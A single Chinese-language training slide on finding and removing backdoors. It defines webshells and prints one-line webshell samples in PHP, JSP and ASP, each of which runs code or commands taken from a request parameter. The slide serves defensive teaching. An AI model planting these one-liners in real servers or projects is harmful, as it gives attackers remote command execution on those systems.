

63
后 门 查 杀
常规的Webshell查杀
在这里首先我们要搞清楚什么是webshell?
"web"的含义就是需要服务器开放web服务，"shell"的含 义是取得对服务器某种程度上的操作权限。webshell常常被称为匿名用户通过web端口对网站服务器的某种操作权限。
通俗讲webshell就是具有强大功能的网页，不希望获取的权限，比如执行命令，删除web页面，修改主页等。

phpwebshell
<?php @eval($_GET['txf']); ?>
<?php @eval($_POST['txf']); ?>
<?php @eval($_REQUESTS['txf']); ?>

jspwebshell
<%Runtime.getRuntime().exec(request.getParameter("i"));%>
aspwebshell
<%eval request ("value")%> 或 <% execute(request("value")) %>